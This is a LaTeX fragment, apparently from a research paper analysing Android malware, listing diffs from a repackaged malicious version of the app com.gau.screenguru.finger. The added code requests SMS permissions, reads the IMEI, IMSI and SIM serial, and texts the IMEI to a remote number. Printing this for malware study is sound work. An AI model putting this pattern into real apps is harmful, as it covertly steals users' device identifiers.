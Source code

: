 \begin{lstlisting}[caption={Diffs in the \texttt{com.gau.screenguru.finger}
      AndroidManifest file of the malicious
      version}, language=Java,
    basicstyle=\fontsize{8}{6}\selectfont\ttfamily,
    label={lst:androidManifest}]

67:M >    <uses-permission android:name="android.permission.RECEIVE_SMS"/>
68:M >    <uses-permission android:name="android.permission.SEND_SMS"/>
\end{lstlisting}

\begin{lstlisting}[caption={Diffs in the malicious version
      of the class \texttt{com.android.main.MainService}
      (app \texttt{com.gau.screenguru.finger})},
      language=Java, basicstyle=\fontsize{8}{6}\selectfont\ttfamily,
      label={lst:mainService}]

492:M > localObject2 = (TelephonyManager)getSystemService("phone");
493:M > if (localObject2 != null)
494:M > {
495:M >  this.imei = ((TelephonyManager)localObject2).getDeviceId();
496:M >  this.imsi = ((TelephonyManager)localObject2).getSubscriberId();
497:M >  this.iccid = ((TelephonyManager)localObject2).getSimSerialNumber();
498:M > }
// [...]
519:M > if ("".equals(this.destMobile)) {
520:M >  getDestMobile();
521:M > }
522:M > sendSMS(this.destMobile, "imei:" + this.imei)
\end{lstlisting}




